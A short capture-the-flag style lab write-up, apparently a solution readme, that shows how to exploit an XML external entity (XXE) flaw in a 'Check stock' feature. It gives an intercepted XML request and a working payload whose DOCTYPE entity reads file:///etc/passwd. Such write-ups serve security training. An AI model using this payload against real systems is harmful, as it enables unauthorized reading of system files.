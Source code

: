 # Exploiting XXE using external entities to retrieve files

## This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

## To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file.

---

### step 1

go to product page intercept send to repeater

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

### step2

add _<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>_ and in product id use &xxe;

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>
&xxe;
</productId><storeId>1</storeId></stockCheck>
```

![screenshot](images/lab1_xxe_retrieve_files.jpg)

lab solved
